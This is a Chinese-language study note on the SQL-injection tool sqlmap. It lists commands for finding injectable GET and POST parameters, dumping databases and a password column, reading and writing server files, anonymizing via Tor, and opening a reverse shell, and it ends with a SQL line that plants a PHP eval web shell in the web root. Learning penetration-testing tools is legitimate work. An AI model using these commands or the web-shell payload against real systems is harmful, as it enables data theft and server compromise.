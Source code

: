 ## sqlmap使用学习

- [连接](https://www.kancloud.cn/lengyueguang/linux/1257683)

---

#### 安装

- sqlmap需要python环境
  - [python下载](https://www.python.org/downloads/)
- sqlmap下载
  - [官方网站](http://sqlmap.org/)
  - [git clone](https://github.com/sqlmapproject/sqlmap.git)

---

#### 使用方式

- 博客教程
  - [详细教程1](https://blog.csdn.net/wn314/article/details/78872828)
  - [详细教程2](https://www.cnblogs.com/hongfei/p/3872156.html)
  - [详细教程3](https://github.com/sqlmapproject/sqlmap/wiki/Usage)

- 判断是否存在get请求sql注入
  ```sh
  sqlmap.py -u “http://192.168.1.1/get_int.php？id=xxx" 
  ```

- 判断是否存在post请求方式注入

  - 将post请求包保存到文本中

  ```sh
  sqlmap.py -r "文本路径" 
  --dbs  //数据库
  --current-db //当前数据库
  --tables //表名
  --columns //行
  --dump 
  ```


---

#### 参数

- --batch 不要用户输入 

- -u 指定url

- --data='{a:1}' 字符串通过post发送

- --cookie=cookie 指定 http cookie

- --random-agent 随机选择 user-agent

- --proxy=xxx 用代理去连接目标

- --tor 使用匿名网络

- --check-tor 检测tor是否使用正确

- --dbs 列出数据库名称

- -D 指定数据库名称 

- --tables 列出表名

- -T 指定表名 -T table_xx

- --columns 列出字段名称

- -C 指定字段名称 -C columns_xx

- --dump 列出指定列的内容

  ```sh
  python3 sqlmap.py -u "http://127.0.0.1:9987/sql?tta=1" -D db_stopic -T tb_person -C name,pwd --dump
  ```

- -p指定测试参数 -p "page,id"

- --current-user 获取当前用户名称

- --current-db 获取当前数据库名称

- --users 列出所有用户

- --dump-all 列出所有数据库所有表

- --dbms 指定数据库

- --is 指定系统

- --sql-shell 执行指定sql命令

- --sql-query执行的sql语句

- --file-read 读取指定文件

- --file-write 写入本地文件

- --file-dest 要写入的文件绝对路径

  ```sh
  -–file-write /test/test.txt –file-dest /var/www/html/1.txt;将本地的test.txt文件写入到目标的1.txt
  ```

- --os-cmd=whoami 命令执行(但是好像有点问题)

- --os-pwn 反弹shell shell(–os-pwn –msf-path=/opt/framework/msf3/) 

- –msf-path=  #matesploit绝对路径(–msf-path=/opt/framework/msf3/)

- sql执行写入文件
  ```sql
  select '<?php phpinfo();@eval($_POST["shell"]);?>' into outfile '/var/www/wordpress/shell.php' from admin;
  ```

  